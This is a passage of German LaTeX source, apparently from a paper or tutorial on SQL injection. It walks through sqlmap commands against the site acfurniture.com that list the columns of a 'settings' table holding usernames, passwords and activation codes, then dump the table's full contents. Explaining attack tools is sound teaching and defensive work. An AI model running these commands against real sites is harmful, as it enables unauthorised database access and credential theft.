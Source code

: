 Bisher wurde festgestellt, dass die Webseite \texttt{acfurniture.com} zwei Datenbanken aufweist, \texttt{acfurniture} und \texttt{information\_schema}. Die Datenbank \texttt{acfurniture} enthält vier Tabellen: \texttt{category}, \texttt{product}, \texttt{product\_hacked} und settings.

\textbf{C. Spalten aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung von Spalten\cite{ramadhan17sqlinj}},captionpos=b, label=LaTeXCode:advs1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/artikel.php?id=1225" -D acfurniture -T settings --columns
\end{LaTeXCode}

\begin{table}[h]
	\centering
	\begin{tabular}{|l|l|}
		\hline
		Database:          & acfurniture      \\ \hline
		Table              & settings         \\ \hline
		\multicolumn{2}{|l|}{{[}6 columns{]}} \\ \hline
		Column             & Type             \\ \hline
		activationcode     & varchar(2048)    \\ \hline
		email              & varchar(45)      \\ \hline
		id                 & int(11)          \\ \hline
		password           & varchar(1024)    \\ \hline
		status             & smallint(2)      \\ \hline
		username           & varchar(45)      \\ \hline
	\end{tabular}
	\caption{Ergebnis: Spalten}
\end{table}

Die Tabelle \texttt{settings} besteht aus sechs Spalten und ist ein Konto mit Anmeldeinformationen. Es wird versucht, diese Informationen auszugeben.\\

\textbf{D. Informationen aufdecken}\\

Man kann alle Daten in der Tabelle mit folgendem Befehl ausgeben:

\begin{LaTeXCode}[caption={Aufdeckung aller Daten in der Tabelle \cite{ramadhan17sqlinj}},captionpos=b, label=LaTeXCode:alledatenausgeben1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=1225" -D acfurniture -T settings --dump
\end{LaTeXCode}

